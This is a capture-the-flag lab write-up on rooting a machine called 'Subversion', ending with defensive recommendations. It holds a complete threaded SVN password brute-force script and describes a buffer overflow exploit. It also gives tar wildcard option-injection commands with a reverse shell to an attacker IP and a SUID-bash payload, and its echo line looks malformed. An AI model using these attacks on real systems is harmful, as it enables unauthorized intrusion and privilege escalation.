# Subversion

## Executive Summary

This hacking lab focuses on a vulnerable machine running a Subversion (SVN)
service accessible through multiple ports. The exercise covers reconnaissance
techniques, brute-force of SVN credentials, analysis of a custom binary with
buffer overflow vulnerabilities, and exploitation of a cron service via
option injection. The objective is to compromise the machine, escalate
privileges, and eventually obtain root access.

## 1. Initial Reconnaissance

The lab begins with an **nmap scan** revealing the following open ports:

- `80` (HTTP)
- `1789` (interactive execution port)
- `3690` (Subversion service)



A subsequent **gobuster scan** on port 80 discovers an `/upload` resource.
Visiting it downloads a file containing advice referring to the Subversion
service, suggesting the attack path will involve that service:




Port `3690` offers only a minimal configuration page when accessed via web:



The HTTP service page simply explains the word *subversion*; no useful
information is present, so further interaction is required:



Accessing certain URLs under `http://<IP>/subversion` reveals an
authentication service requiring credentials.

## 2. SVN Brute‑Force

To gain access, the generic `svnuser` account (commonly present in these
environments) is targeted. A Python script performs a threaded brute-force
attack using a wordlist (`rockyou.txt`), invoking the `svn` client and
handling authentication errors:

```bash
#!/usr/bin/env python3
import subprocess
import threading
from queue import Queue
import time
import sys

# Configuration
url = "svn://172.17.0.2/subversion"
user = "svnuser"
wordlist = "/usr/share/wordlists/rockyou.txt"
num_threads = 10
timeout_seconds = 10

queue = Queue()
found = False
lock = threading.Lock()

def try_password():
    global found
    while not found and not queue.empty():
        try:
            password = queue.get(timeout=1)
        except:
            continue

        if found:
            queue.task_done()
            break

        print(f"\r[+] Trying: {password[:20]}...", end="", flush=True)

        try:
            cmd = [
                "svn", "ls",
                "--username", user,
                "--password", password,
                "--non-interactive",
                "--no-auth-cache",
                "--trust-server-cert-failures=unknown-ca,cn-mismatch,expired,not-yet-valid,other",
                url
            ]
            result = subprocess.run(cmd, capture_output=True, text=True, timeout=timeout_seconds)
            if result.returncode == 0:
                with lock:
                    if not found:
                        found = True
                        print(f"\n\n🚨 PASSWORD FOUND! 🚨")
                        print(f"User: {user}")
                        print(f"Password: {password}")
            elif "Authentication failed" in result.stderr:
                pass
            elif "denied" in result.stderr:
                pass
            else:
                with lock:
                    print(f"\n[!] Unexpected error with {password}: {result.stderr[:50]}")
        except subprocess.TimeoutExpired:
            with lock:
                print(f"\n[!] Timeout with {password}")
        except Exception as e:
            with lock:
                print(f"\n[!] Exception: {e}")
        finally:
            queue.task_done()

def load_wordlist(file, limit=None):
    print(f"[*] Loading wordlist: {file}")
    count = 0
    try:
        with open(file, 'r', encoding='latin-1', errors='ignore') as f:
            for line in f:
                pwd = line.strip()
                if pwd:
                    queue.put(pwd)
                    count += 1
                    if limit and count >= limit:
                        break
    except FileNotFoundError:
        print(f"[-] Wordlist not found: {file}")
        sys.exit(1)
    print(f"[+] {count} passwords loaded")
    return count

if __name__ == "__main__":
    print("="*60)
    print("🚀 SVN BRUTE FORCE")
    print("="*60)
    print(f"URL: {url}")
    print(f"User: {user}")
    print(f"Wordlist: {wordlist}")
    print(f"Threads: {num_threads}")
    print("="*60)
    total = load_wordlist(wordlist)
    input("\n[?] Press Enter to start...")
    start = time.time()
    threads = []
    for _ in range(num_threads):
        t = threading.Thread(target=try_password, daemon=True)
        t.start()
        threads.append(t)
    try:
        queue.join()
    except KeyboardInterrupt:
        print("\n\n[!] Interrupted by user")
    end = time.time()
    if not found:
        print("\n[-] Password not found")
    print(f"\n[*] Total time: {end-start:.2f} seconds")
```



With the password obtained, access to the Subversion repository reveals
sensitive information, including a binary named `subversion`:




Reverse engineering with Ghidra identifies four key functions: `main`,
`ask_questions`, `magic_text` and `shell`:







`ask_questions` generates a random number, asks questions (revealing correct
answers), then calls `magic_text`, which uses an unsafe `gets` call (buffer
overflow). The `shell` function opens a shell but is not invoked. The flow
requires inputting the initial random number to trigger `magic_text`.

Using a Python script, the questions are answered automatically, and the
pseudo‑random number is predicted by replicating the PRNG seed. The exploit
overwrites the buffer with the address of `shell`, resulting in remote code
execution:



After adjusting for the shell address (shown below), the exploit is run and a
bash shell from the attacker machine opens, ultimately yielding a user shell
as `luigi`:



Attacker console:



`luigi` shell on target:



## 3. Cron Exploitation

Checks for SUID files yield none, so running processes are examined:



Multiple root-owned processes are suspicious; `/etc/crontab` is inspected:



A cron job archives `/home/luigi/*` using `tar`. The wildcard expansion is
vulnerable to option injection. The attack sequence is:

```bash
cd /home/luigi/

# create option-like filenames
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"

# craft payload script
cat > shell.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/172.17.0.1/5555 0>&1
EOF
```

The reverse shell attempt failed, so the script was simplified to set SUID on
bash:

```bash
echo -r '#! /bin/bash\chmod +s /bin/bash' > shell.sh
```

When cron runs, `tar` executes the script, setting SUID bit on `/bin/bash`.
Running `bash -p` yields an immediate root shell:



Root access accomplished!

## Recommendations

- **Exposed SVN service:** Restrict port 3690 via firewall rules and disable
  unnecessary services.
- **Weak credentials:** Enforce strong password policies and multi-factor
  authentication for SVN.
- **Binary with buffer overflow and predictable RNG:** Audit code, use safe
  input functions (`fgets` with limits) and cryptographically secure random
  number generators.
- **Insecure cron wildcard expansion:** Avoid `*` in sensitive paths, specify
  files explicitly or use `tar --` to separate options from filenames.
